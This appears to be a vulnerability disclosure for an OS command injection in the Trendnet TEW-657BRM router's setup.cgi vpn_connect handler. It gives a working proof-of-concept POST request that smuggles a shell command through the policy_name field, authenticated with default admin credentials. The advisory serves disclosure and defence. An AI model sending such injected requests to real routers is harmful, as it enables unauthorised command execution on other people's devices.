


### Trendnet TEW-657BRM vpn_connect
##### Overview
vendor: Trendnet

product: TEW-657BRM

version: 1.00.1

type: Command Injection
##### Vulnerability Description
A vulnerability has been found in Trendnet TEW-657BRM 1.00.1. There is a remote OS command injection vulnerability in the setup.cgi. The manipulation of the argument policy_name leads to  command injection. The attack is possible to be carried out remotely. The exploit has been disclosed to the public and may be used.
##### Vulnerability Details
The `vpn_connect` function retrieves the `policy_name`  parameter from the user request. The parameter is passed to the `SYSTEM` function without any check, which may cause command injection.





##### POC
```
POST /setup.cgi HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 64
Origin: http://192.168.10.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://192.168.10.1/setup.cgi
Upgrade-Insecure-Requests: 1
Priority: u=4

policy_name=; /bin/ls>/3.txt&todo=vpn_connect&next_file=diag.htm
```